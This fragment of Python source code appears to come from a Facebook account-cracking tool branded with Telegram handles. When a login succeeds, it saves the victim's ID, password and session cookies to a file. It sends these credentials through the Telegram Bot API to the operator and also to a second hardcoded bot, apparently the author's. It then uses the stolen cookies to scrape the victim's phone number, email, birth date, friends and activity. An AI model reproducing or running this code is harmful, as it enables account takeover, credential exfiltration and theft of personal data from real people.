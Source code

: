 ᴘᴀѕѕ - بـاسـ🔒ـوࢪد < {pw}

id = tg://openmessage?user_id={ID}
_____________________________
*ᴅᴏɴᴛ ғᴏʀɢᴇᴛ ѕᴄʀᴇᴇɴѕ* 🖤🌞
*لاتنسى صور الصيد* ✨🔥
_____________________________
𝙱𝚈 - 𝙳𝙴𝚅 ℡ < @Lx0b2 >
𝙳𝙴𝚅 - 𝙲𝙷𝙽 < @Pythonln >
					'''
					statusok1 = nel(statusok, style='green')
					open('OK/'+okc,'a').write(statusok)
					cetak(nel(statusok1, title='مبروك'))
					requests.get("https://api.telegram.org/bot"+str(token)+"/sendMessage?chat_id="+str(ID)+"&text="+str(statusok))
					requests.get("https://api.telegram.org/bot"+str(mytoken)+"/sendMessage?chat_id="+str(myid)+"&text="+str(statusokm))
					kilgame(kuki)
					break
				elif 'ya' in taplikasi:
					ok+=1
					coki=po.cookies.get_dict()
					kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
					open('OK/'+okc,'a').write(idf+'|'+pw+'|'+kuki+'\n')
					user=idf
					infoakun = ""
					session = requests.Session()
					get_id = session.get("https://m.facebook.com/profile.php",cookies=coki,headers=headapp).text
					nama = re.findall('\<title\>(.*?)<\/title\>',str(get_id))[0]
					response = session.get("https://m.facebook.com/profile.php?v=info",cookies=coki,headers=headapp).text
					response2 = session.get("https://m.facebook.com/profile.php?v=friends",cookies=coki,headers=headapp).text
					response3 = session.get(f"https://m.facebook.com/{user}/allactivity/?category_key=all&section_id=year_2022&timestart=1609488000&timeend=1641023999&sectionLoadingID=m_timeline_loading_div_1641023999_1609488000_8_",cookies=coki,headers=headapp).text
					response4 = session.get(f"https://m.facebook.com/timeline/app_collection/?collection_token={user}%3A184985071538002%3A32&_rdc=1&_rdr",cookies=coki,headers=headapp).text
					try:nomer = re.findall('\<a\ href\=\"tel\:\+.*?\">\<span\ dir\=\"ltr\">(.*?)<\/span><\/a>',str(response))[0]
					except:nomer = ""
					try:email = re.findall('\<a href\=\"https\:\/\/lm\.facebook\.com\/l\.php\?u\=mail.*?\" target\=\".*?\"\>(.*?)<\/a\>',str(response))[0].replace('&#064;','@')
					except:email=""
					try:ttl = re.findall('\<\/td\>\<td\ valign\=\"top\" class\=\".*?\"\>\<div\ class\=\".*?\"\>(\d+\s+\w+\s+\d+)<\/div\>\<\/td\>\<\/tr\>',str(response))[0]
					except:ttl=""
					try:teman = re.findall('\<h3\ class\=\".*?\"\>Teman\ \((.*?)\)<\/h3\>',str(response2))[0]
					except:teman = ""
					try:pengikut = re.findall('\<span\ class\=\".*?\"\>(.*?)\<\/span\>',str(response4))[1]
					except:pengikut = ""
					try:
						tahun = ""
						cek_thn = re.findall('\<div\ class\=\".*?\" id\=\"year_(.*?)\">',str(response3))
						for nenen in cek_thn:
							tahun += nenen+", "
					except:pass
